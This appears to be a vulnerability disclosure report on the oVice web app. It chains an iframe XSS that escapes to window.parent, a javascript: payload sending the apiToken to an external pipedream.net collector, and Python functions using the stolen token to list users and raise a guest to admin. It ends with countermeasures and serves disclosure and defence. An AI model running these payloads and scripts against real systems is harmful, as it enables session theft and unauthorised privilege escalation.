

## Attack Type

- XSS
- Weak algorithm
- Hardcoded credentials

## Attack Effect

- Security Check Bypass
- Privilege Escalation

## Found Location

- It is a related page that proceeds with token management when logging in to the initial account.

```jsx
https://app.ovice.in/login
https://app.ovice.in/lobby
```

- It can be seen that `apiToken` data of the App object, which is a window object sub-attribute, is managed.

```jsx
window.App = {"apiToken":apiToken};
window.socket = true
```

- The `window.socket` object deals with the `boolean` data type, which is used as a branch to conduct socket communication suitable for the authority.

```jsx
POST /api/v1/workspaceUser/change/auth
Cookie: ovice_session, XSRF-TOKEN
Header: Authorization
```

- Authority management for the user is performed, and the function operates in administrator authority.

## Attack Point

### csrf-token management

- It can be seen that csrf-token is generated using the initial meta tag, and the token continues to remain at the same value.


### Unsafe token management.


- Log in process based on `XSRF-TOKEN` value, ID, and PW information.
- The `apiToken` generated after completion of the login process is used to verify user rights within the entire service.


- After entering the workspace, it can be confirmed that the `apiToken` is in the Global Window object.
- Even if you enter a different workspace with the same account, you use the same value for the `apiToken`

# Vulnerability Description

### Unsafe token management.

- Token is generated using a meta tag to defend `CSRF`.
- The `CSRF Token` value is input as a hidden field of the form tag of HTML and may be used as a dynamic request.
- In the `app.js` source code, you can check the case of inserting `csrf-token` into the Html tag and the logic of dynamically requesting it.
- The security provided by `CSRF Token` presupposes that the token is not known by the attacker, so care should be taken not to expose it to third parties through other channels.


- It can be confirmed that `_token, email, password, timezone` data is transferred to POST while logging in (user authentication).
- The _token value is the same as `CSRF-token`, and it may be seen that CSRF is defended.


- You can see that `apiToken` is assigned as an App object in the window.
- The `apiToken` verifies whether authorization is assigned to the user.


- `apiToken` is a necessary value when performing an api call that requires authorization, and is used as a value of secure-header `Authorization`, and as a result of analyzing the API flowchart of the oVice Web Application, a total of 52 or more parts use the value.



- As shown in the following figure, it is used in workspace in another domain based on `apiToken`, and if the authority for that API is more than a member or administrator, you can perform the function using token.


## xss attack to steal apiToken

### You thought it was safe, right?

- If an internal script similar to XSS is operated in terms of Client-Side, it is a problem because it can trigger data on the App object in the `window object.`
- As described in the xss bug report, `inline script` may be executed due to insufficient src verification of `iframe plugin`.

### child frame escape

- `window.App` In order to access an object, it is necessary to escape the child frame of the iframe.
To escape, approach it as a `window.parent` parent.
- If you check the location, you can see that it exists in different locations.


- `Frame redirection` is performed to transfer data to the outside using the `location.href` attribute.
- When proceeding with redirection, it is delivered with reference to `window.parent.App`

```jsx
javascript:window.location.href='https://34262b51514dfe4a89d127042ade5798.m.pipedream.net/?'+(window.parent.App.apiToken)
```

- As a result of delivering the `apiToken` value to an external server by referring to `window.person.App`, the `CSP`is not applied to the main flow, so you can check the data.


### User Permission Setting API

- When a user with administrative authority is attacked by the XSS, the attacker can steal `apiToken`, which can be used to call api of administrative authority.

### Increase authority using administrator function based on session stealing through XSS attack.

- The following are functions that allow users to change their rights through administrator rights.

- The `/api/v1/workspaceuser/change/auth`  API can change the rights of the target user by delivering `workspace_user_id_to_update, workspace_user_id, workspace_id, auth` data to POST.
- The authority to change the user authority is divided into administrator and member authority, and each may deal with a lower authority.

```jsx
admin -> admin, member, visitor, guest
member -> member, visitor, guest
```


- Use `/api/v1/workspace/getWorkspaceUsers` and `/api/v1/workspace/getDashboardWorkspaceUsers` APIs to collect data needed when calling the privilege-raising API using tokens.
- Based on the collected data, `/api/v1/workspaceuser/change/auth`, an API for raising authority, was called to raise the target authority to Guest->Admin.

```jsx
/api/v1/workspace/getWorkspaceUsers
/api/v1/workspace/getDashboardWorkspaceUsers
```


## Payload

### Stealing apiToken sessions using XSS attacks.

- Two levels of payload should be operated.
- In order to obtain the `apiToken` value of the user who wants to steal based on `iframe XSS`, the `apiToken` is sent to the response server by obtaining the value of the `App in the window parent object.`

```html
javascript:window.location.href='<RevicedServer>?'+(window.parent.App.apiToken)
```

### Gathering necessary information.

- After the elevation of authority is completed, call the `/api/v1/workspace/getDashboardWorkspaceUsers` API to steal the information necessary for the elevation of authority. (`workspace_user_id`, `workspace_id`, `user_id`)

```python
def getDashbordInfo(self):
    Headers = {
        "Host": self.target_url,
        "Authorization": f"Bearer {self.token}"
    }
    # What is auth
    auth = input("[?] What is auth? (admin/member/guest) : ")
    data = {"workspace_id": self.workspace_id, "auth": auth}
    res = requests.post(
        f"https://{self.target_url}/api/v1/workspace/getDashboardWorkspaceUsers", data=data, headers=Headers)
    state = json.loads(res.content.decode())
    # input name, id, email, user_id, workspace_id, auth, room_id,
    for i in state:
        self.target_user[i['name']] = {'workspace_user_id': i['id'], 'email': i['email'], 'user_id': i['user_id'],
                                       'workspace_id': i['workspace_id'], 'auth': i['auth'], 'room_id': i['room_id']}
    # output self.target_user name
    for i in self.target_user:
        print(f"[+] {i} ")
        print("============================")
        # element output
        for j in self.target_user[i]:
            print(f"[+] {j} : {self.target_user[i][j]}")
        print("============================")
```

### Privilege escalation proceeding after session hijacking

- `/api/v1/workspaceUser/change/auth` api only verifies the authority for the stolen `apiToken`, so based on the stolen token, `workspace_user_id_to_update`, `workspace_user_id`, `workspace_id`, and `auth` data are made into a target form, and then POST requests to complete the elevation of the authority.

```python
def changeAuth(self):
    Headers = {
        "Host": self.target_url,
        "Authorization": f"Bearer {self.token}"
    }
    # Who is admin
    name = input("[+] Who is admin? : ")
    # What is auth
    auth = input("[+] What is auth? : ")
    data = {"workspace_user_id_to_update": self.target_user[name]['workspace_user_id'],
            "workspace_user_id": self.target_user[name]['workspace_user_id'],
            "workspace_id": self.workspace_id,
            "auth": auth
            }
    res = requests.post(
        f"https://{self.target_url}/api/v1/workspaceUser/change/auth",
        data=data,
        headers=Headers)
    state = json.loads(res.content.decode())
    print(state)
```
## Security Countermeasure

### Secure authentication session management

- `apiToken`, which is used for all authorization authentication, is used the same within all workspaces that the user is accessing.
- Services that require permission in a web application must require logic for permission verification, but currently perform authorization inspection with Security Header attributes and use `apiToken` at this time.
- However, token management problems arise where the token is stored.
- Tokens required for authorization authentication must use arbitrarily generated tokens, not the same tokens, when the user accesses another worksapse.
- In token management, the method of storing tokens should store session cookie values rather than window objects.
    - Apply Host Only, Session, and Secure Cookie Security Policy.

### Safe data management.

- If you send a request to the server, you must create and send a data format that cannot be inferred from the outside.
- This is because when checking data such as current user_id and workspace_id, it was immediately confirmed that integer values were used when they were generated sequentially.
- Key and value values should be made in a format not related to service logic so that data closely related to database cannot be recognized from the outside.
```toc
```

```toc
```